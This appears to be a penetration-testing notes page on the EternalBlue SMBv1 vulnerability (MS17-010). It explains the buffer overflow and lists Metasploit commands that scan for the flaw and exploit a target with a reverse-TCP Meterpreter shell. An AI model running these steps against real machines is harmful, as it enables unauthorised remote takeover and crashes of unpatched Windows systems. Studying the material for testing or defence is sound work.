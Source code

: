 icon:fontawesome/solid/unlock-keyhole

# CVE-2017-0143

CVE-2017-0143 | MS17-010

- MS17-010
- CVE-2017-0143
- CVE-2017-0144
- CVE-2017-0145
- CVE-2017-0146
- CVE-2017-0148
- CVE-2017-0147

This module is a port of the Equation Group ETERNALBLUE exploit, part of the FuzzBunch toolkit released by Shadow Brokers. There is a buffer overflow memmove operation in Srv!SrvOs2FeaToNt. The size is calculated in Srv!SrvOs2FeaListSizeToNt, with mathematical error where a DWORD is subtracted into a WORD. The kernel pool is groomed so that overflow is well laid-out to overwrite an SMBv1 buffer. Actual RIP hijack is later completed in srvnet!SrvNetWskReceiveComplete.

This exploit, like the original may not trigger 100% of the time, and should be run continuously until triggered. It seems like the pool will get hot streaks and need a cool down period before the shells rain in again. The module will attempt to use Anonymous login, by default, to authenticate to perform the exploit. If the user supplies credentials in the SMBUser, SMBPass, and SMBDomain options it will use those instead. On some systems, this module may cause system instability and crashes, such as a BSOD or a reboot. This may be more likely with some payloads.

## Scanner

```bash
msf5 > use auxiliary/scanner/smb/smb_ms17_010
```

## Exploit

```bash
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 > set rhost <target>
msf5 > set payload windows/x64/meterpreter/reverse_tcp
msf5 > set lhost <own-system>
msf5 > run
```

## References

- [Docs.microsoft.com](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010)
- [GitHub](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS17-010)
